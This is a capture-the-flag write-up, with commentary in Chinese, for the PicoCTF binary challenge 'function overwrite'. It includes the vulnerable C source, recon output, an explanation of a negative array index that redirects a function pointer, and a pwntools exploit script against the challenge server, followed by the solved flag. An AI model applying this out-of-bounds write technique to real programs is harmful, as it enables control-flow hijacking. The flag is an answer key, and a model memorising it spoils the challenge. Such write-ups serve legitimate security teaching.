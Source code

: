 ```yaml
---
title: PicoCTF - function overwrite
tags: [PicoCTF, CTF, PWN]

---
```


# PicoCTF - function overwrite
## Background
Array Bound
## Source code
:::spoiler Source Code
```cpp=
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

int calculate_story_score(char *story, size_t len)
{
  int score = 0;
  for (size_t i = 0; i < len; i++)
  {
    score += story[i];
  }

  return score;
}

void easy_checker(char *story, size_t len)
{
  if (calculate_story_score(story, len) == 1337)
  {
    char buf[FLAGSIZE] = {0};
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL)
    {
      printf("%s %s", "Please create 'flag.txt' in this directory with your",
                      "own debugging flag.\n");
      exit(0);
    }

    fgets(buf, FLAGSIZE, f); // size bound read
    printf("You're 1337. Here's the flag.\n");
    printf("%s\n", buf);
  }
  else
  {
    printf("You've failed this class.");
  }
}

void hard_checker(char *story, size_t len)
{
  if (calculate_story_score(story, len) == 13371337)
  {
    char buf[FLAGSIZE] = {0};
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL)
    {
      printf("%s %s", "Please create 'flag.txt' in this directory with your",
                      "own debugging flag.\n");
      exit(0);
    }

    fgets(buf, FLAGSIZE, f); // size bound read
    printf("You're 13371337. Here's the flag.\n");
    printf("%s\n", buf);
  }
  else
  {
    printf("You've failed this class.");
  }
}

void (*check)(char*, size_t) = hard_checker;
int fun[10] = {0};

void vuln()
{
  char story[128];
  int num1, num2;

  printf("Tell me a story and then I'll tell you if you're a 1337 >> ");
  scanf("%127s", story);
  printf("On a totally unrelated note, give me two numbers. Keep the first one less than 10.\n");
  scanf("%d %d", &num1, &num2);

  if (num1 < 10)
  {
    fun[num1] += num2;
  }

  check(story, strlen(story));
}
 
int main(int argc, char **argv)
{

  setvbuf(stdout, NULL, _IONBF, 0);

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}

```
:::
## Recon
```bash!
$ file vuln
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=8b6f3ccbb344c3ba91ef077e29c8ab9d6e2da011, for GNU/Linux 3.2.0, not stripped
$ checksec vuln
[*] '/mnt/d/NTU/CTF/PicoCTF/PWN/function overwrite/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
這一題比想像中簡單，流程是這樣的，他的function pointer原本預設是指像hard_checker，而它裡面做的事情就是把我們輸入的所有字元以ascii的方式加總，如果加總的結果是13371337，就可以讀到flag，但是我們可以做一個簡單的換算，一個字元最多1 byte，也就是最大0xff，他設定最多只能輸入127個字元，代表0xff\*127=32385，遠遠低於13371337，而題目有提供另外一個checker也就是easy_checker，他只需要最後的加總是1337就可以了，代表完全有可能實現(例如：'z'\*10+'u'$\to$0x7a\*10+0x75)，現在的問題是要怎麼把一開始的function pointer指向easy_checker?

題目故意叫我們輸入兩個數字還特別在hint的地方說
> Don't be so negative
其實就是題是array bound的問題，所以簡單用gdb跟一下就可以換算fun array和check function pointer之間的差距還有該加上多少會變成easy_checker的地址
## Exploit
```python!
from pwn import *

# r = process('./vuln')
r = remote('saturn.picoctf.net', 58094)
easy_checker_addr = 0x080492fc
r.recvuntil(b'>> ')
r.sendline(b'z' * 10 + b'u')
r.recvline()
r.sendline(b'-16')
r.sendline(b'-314')

r.interactive()
```

Flag: `picoCTF{0v3rwrit1ng_P01nt3rs_ded38e3b}`
